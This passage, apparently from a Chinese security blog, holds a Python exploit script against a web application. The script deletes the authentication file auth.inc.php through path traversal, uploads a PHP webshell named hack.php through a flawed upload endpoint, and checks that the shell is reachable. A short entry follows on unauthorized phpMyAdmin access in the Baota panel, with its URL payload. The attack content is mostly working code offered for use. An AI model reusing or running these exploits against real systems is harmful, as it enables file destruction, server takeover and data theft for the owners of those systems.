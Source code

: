 ```

url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
requests.get(url=url)
print("[*]Checking if file deleted...")
url=target+"/inc/auth.inc.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[-]Failed to deleted auth.inc.php")
    exit(-1)
print("[+]Successfully deleted auth.inc.php!")
print("[*]Uploading payload...")
url=target+"/general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"
files = {'FILE1': ('hack.php', payload)}
requests.post(url=url,files=files)
url=target+"/_hack.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[+]Filed Uploaded Successfully")
    print("[+]URL:",url)
else:
    print("[-]Failed to upload file")
```
## 宝塔phpmyadmin未授权访问
### 漏洞版本
inux面板7.4. 2 版本/Windows面板6. 8 版本
### payload

```
:888/pma
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/10.png)
